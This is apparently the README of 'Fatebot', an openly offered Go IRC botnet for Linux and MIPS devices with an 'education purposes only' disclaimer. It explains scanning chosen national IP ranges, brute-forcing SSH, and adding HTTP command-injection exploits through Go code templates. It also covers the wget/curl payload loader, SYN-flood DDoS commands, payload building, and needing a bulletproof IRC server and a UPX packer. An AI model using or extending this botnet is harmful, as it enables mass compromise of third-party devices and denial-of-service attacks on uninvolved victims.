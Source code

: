 <p align="center">
	<a href="https://github.com/boz3r/Fatebot">
		<img src="assets/just_add_Fate_txt.png" alt="fatebot" width="440" height="440">
	</a>
	<br>
	<a href="https://github.com/boz3r/Fatebot/blob/master/LICENSE">
		<img src="https://img.shields.io/badge/license-Unlicense-red?style=plastic">
	</a>
	<a href="https://github.com/boz3r/Fatebot">
    		<img src="https://img.shields.io/badge/version-v0.8.2-lightgrey?style=plastic">
	</a>
	<a href="https://go.dev/">
    		<img src="https://img.shields.io/badge/language-Go-red?style=plastic">
	</a>
	<a href="https://en.wikipedia.org/wiki/Linux">
    		<img src="https://img.shields.io/badge/platform-linux-lightgrey?style=plastic">
	</a>
  	</br>
</p>

<p align="center">
	<b><ins>⚠️ DISCLAIMER ⚠️</ins></b>
	<br>
	Bozer\Bulldozer (Old GitHub name was R4bin) the author of Fatebot.
	<br>
		I create this project for education purposes only, the use of this software is your responsibility!!!
	<br>
</p>

---

# Spread Feature
The spread feature will scan on the default SSH and HTTP (vulnerabilities). Option about the scan feature in this bot is to scan on CN, USA, KR, and BR networks or you can do a random scan or even you can add your own networks, all of these is up to you. This bot will brute-force attack and exploit the target device, server, etc that's run Linux or uses MIPS x32 architecture. The loader will use "wget" or "curl" as a default loader for downloading payload from The FTP server or any option in any server type that you can host your payload, not maintionly to be an FTP server.
	
	# How to add more scanner network (Create your own scan mod).
	
	1) Go to the scanner.go file and add a new slice for your scan network.
	
		# Example:
			
			var Italy_Network = []string {
				"123.456", //123.456.0.0/16
			}
			
			# since v0.6.0 will use only 16 bits of the IP range to set up scan networks (I'm still confused about the subnet mask LOL).
			
	2) Go to the header.go file and scroll down to the map name "ScanMap".
	3) Customize your key and value. The value of the map is structure, so you need to call a value in the "Bot" structure and fill it.
	
		# Example:
		
			"-fi": {				 # This key will be the command of a network arg in the "?scan" command.
				scanNetwork: Finland_Network, 	 # Fill the "scanNetwork" that's a value of the "Bot" structure. To your network slice.
				scanOptFull: "\"FINLAND\"",	 # Add the full name of the network for a reporting process.
				isRandom:    false,		 # Set "isRandom" to false because it's not a full random network.
			},
	
	4) Done... Just save it.
	
# Add/Customize Exploit
The exploit that's used in this botnet mostly will be a command injection (TBH it's all of it LMAO). You can add more new exploits if you want, but I recommend it to be a command injection vulnerability because you don't need to add or write anything more you just need to config it. I try to make the exploit feature easy and flexible to the configuration as much as I can. If 2 examples down below is not enough you can see more example in "internal/exploit.go".

	################################################################
	### Example 1 In case that you want to add a new HTTP header ###
	################################################################
	
	func (b *Bot) CVE_someYear_newCVE1() {
		
		# If you add a post exploit, then customize it with a JSON.
		# In case that your exploit needs to inject on a post body just call an inject function --> b.inject("default or MIPS", true)
		
		
		# This example will use default architecture so that's why we put "default" if your exploit use MIPS just put "mips".
		# Always put true because we are doing an exploit not scanning (The inject function has been reused in the scanner function).
			
		newCVE1, _ := json.Marshal(map[string]string{
			"example":      "something",
			"example":      "something"+b.inject("mips", true),
		})
		
		# This is just a HTTP header customization.
		# Incase your exploit needs to inject on a header just do the same with the body. 
		
		enewCVE1 := Exploit{
			exploitName:       "CVE_someYear_newCVE1",			# Customize the exploit name for a reporting process.
			exploitMethod:     "POST",					# Which HTTP method you will use for this exploit?
			exploitPath:     "example/something",				# Customize URL path.
			exploitBody:       strings.NewReader(string(newCVE1)),	        # Customize HTTP body.
			exploitAgent:      "example"+b.inject("mips", true),		# Customize HTTP agent.
			exploitAccept:     "example",					# Customize HTTP accept.
			exploitContType:   "example",					# Customize HTTP content type.
			exploitConnection: "example",					# Customize HTTP connection.
		}
		
		# If you want to add new header then just call it, like the example down below.
		
		_, newHeader := enewCVE1.setupExploit(b.tempIP)			# Use "enewCVE1" for calling the Exploit structure-function.
		newHeader.Header.Set("newHeader", "headerContent")		# Add a new header (header, header_content).
		b.exploitLauncher(enewCVE1, newHeader)				# Launch the exploit by putting the exploit structure and header in to "b.exploitLauncher(ourExploit, ourHeader)" function.
	}
	
	#################################################################
	### Example 2 In case you don't need to add a new HTTP header ###
	#################################################################
	
	# This example is the same as the first example in terms of header and body configs.
	
	func (b *Bot) CVE_someYear_newCVE2() {			
		newCVE2, _ := json.Marshal(map[string]string{
			"example":      "something",
			"example":      "something"+b.inject("", true),
		})
		enewCVE2 := Exploit{
			exploitName:       "CVE_someYear_newCVE2",			# Customize the exploit name for a reporting process.
			exploitMethod:     "POST",					# Which HTTP method you will use for this exploit?
			exploitPath:       "example/something",				# Customize URL path.
			exploitBody:       strings.NewReader(string(newCVE2)),	        # Customize HTTP body.
			exploitAgent:      "example"+b.inject("", true),		# Customize HTTP agent.
			exploitAccept:     "example",					# Customize HTTP accept.
			exploitContType:   "example",					# Customize HTTP content type.
			exploitConnection: "example",					# Customize HTTP connection.
		}

		b.exploitLauncher(enewCVE2,  b.selfRequest(enewCVE2))		# In the first example, you need to call "setupExploit" function but in this example, you don't need to call it.
										# Just call the "exploitLauncher" function and in the second argument using the "selfRequest" function instead of a newHeader value. 
										# Because we only use the default header set and then put our exploit structure into the "selfRequest" argument.
	}
	
# Attack Feature
The attack feature mostly will play around with The Transport Layer, but also have an application and The Network Layer too.
All of the attack vectors except "HTTP" DDoS vectors will be random source ports and windows size automatically, but the DST port will let the bot herder config by themself.

	# tcp -syn 127.0.0.1 192.168.50.129 -r 100 //a command that's used in this screenshot.

<img src="assets/synflood.png" alt="synflood, DoS example">

# IRC Commands
	
	cat irc/commands.txt 
	
	# I have moved IRC commands from GitHub repositories to the commands.txt file.

# Build Payload

	chmod +x build.sh
	./build.sh <payload>
	
	# The bot system architecture is up to which payload you upload on your payload server.
	# If you upload x32 on your payload server, the bot that you have scanned will be only x32 arch.
	# The MIPS architecture is specific for doing an exploit only, so it doesn't count to the scan process!!!
	# To run the payload you need to run with root access!!!

# Requirements
<ul>
	<li>x1 Bulletproof IRC Server</li>
</ul>

<ul>
	<li>x1 Payload Hosting Server</li>
</ul>

<ul>
	<li>IRC Client</li>
</ul>

<ul>
	<li>Go Compiler</li>
</ul>

<ul>
	<li>UPX Packer</li>
</ul>

<ul>
	<li>Code\Text Editor</li>
</ul>
